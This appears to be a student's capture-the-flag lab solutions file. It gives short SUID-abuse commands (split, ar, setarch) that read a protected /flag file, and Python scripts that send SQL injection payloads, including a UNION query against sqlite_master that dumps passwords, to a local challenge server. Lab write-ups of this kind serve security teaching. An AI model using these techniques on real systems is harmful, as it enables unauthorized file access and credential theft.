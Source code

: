 # Lab 2

## SUID Exploitation

* Level 16

split /flag

cat xaa


* Level 21 

ar r inter /flag

cat inter

* Level 30 

setarch --uname-2.6 cat /flag

## SQLi 

* Level 3 

import requests 

URL = "http://challenge.localhost:80/?user=1" 

r = requests.get(url = URL) 

print(r.content)

* Level 4

import requests 

form = { "username" : 'flag" --', "password" : "idk", } 

response = requests.post("http://challenge.localhost/", data=form) 

print(response,"\n",response.text)

* Level 6

import requests 

params = {"query": '" UNION SELECT tbl_name from sqlite_master --'} 

response = requests.post("http://challenge.localhost/", params=params) 

t_name = response.text.strip()

params = {"query": f'" UNION SELECT password from {t_name} --' }

response = requests.post("http://challenge.localhost/", params=params) 

print(response.text.strip())